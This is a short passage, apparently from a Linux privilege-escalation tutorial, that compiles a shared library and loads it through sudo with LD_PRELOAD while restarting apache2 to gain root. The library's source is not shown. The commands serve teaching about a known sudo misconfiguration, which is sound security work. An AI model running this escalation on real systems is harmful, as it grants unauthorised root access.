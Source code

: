 We can compile this as follows:

```shell
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Finally, we can escalate privileges using the below command. Make sure to specify the full path to your malicious library file.

```shell
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

